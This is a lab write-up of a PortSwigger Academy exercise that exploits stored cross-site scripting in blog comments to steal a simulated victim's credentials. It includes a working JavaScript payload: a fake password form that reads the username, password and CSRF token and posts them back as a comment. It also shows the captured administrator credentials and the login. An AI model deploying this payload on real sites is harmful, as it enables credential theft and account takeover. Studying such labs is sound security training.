 # Exploiting cross-site scripting to capture passwords

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords), you'll learn: Exploiting cross-site scripting to capture passwords! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231044403.png)

**In the home page, we can view one of those posts:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231044550.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231044555.png)

And we can leave some comments.

**Let's test for XSS:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231044704.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231044713.png)

It worked!

Now, **we can create a fake password `<input>` box, to capture victim auto-filled password!**

```html
<h2>Type your password here:</h2>

<form onchange=getPassword()>
    <label for="passwd">Password:</label>
    <input type="password" id="passwd" name="password">
    <br>
    <label for="user">Username:</label>
    <input type="username" id="user" name="username">
</form>

<script>
    function getPassword(){
        // Capture victim's password and CSRF token
        var password = document.getElementsByName("password")[0].value;
        var username = document.getElementsByName("username")[0].value;
        var csrfToken = document.getElementsByName('csrf')[0].value;

        // Construct the require POST parameters
        var data = 'csrf=' + csrfToken + '&';
        data += 'postId=7&';
        data += 'comment=' + username + ':' + password + '&';
        data += 'name=XSS&';
        data += 'email=xss@xss.com&';
        data += 'website='

        // Send the victim's password and username
        fetch('https://0a3c00d703b03f0fc0723608004700ed.web-security-academy.net/post/comment',
            {
                method: 'POST',
                mode: 'no-cors',
                body: data
            }
        )
    };
</script>
```

In this payload, when one of the input boxes update, run function `getPassword()`, which will fetch victim's password, username, and CSRF token. Then, construct the require POST parameters and send it via POST requesto to `/post/comment`.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231053257.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231053307.png)

**Boom! We got his username and password: `administrator:4p7u96l7v47i93hx76qq`.**

**Let's login as `administrator`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231053341.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231053350.png)

I'm user `administrator`!

# What we've learned:

1. Exploiting cross-site scripting to capture passwords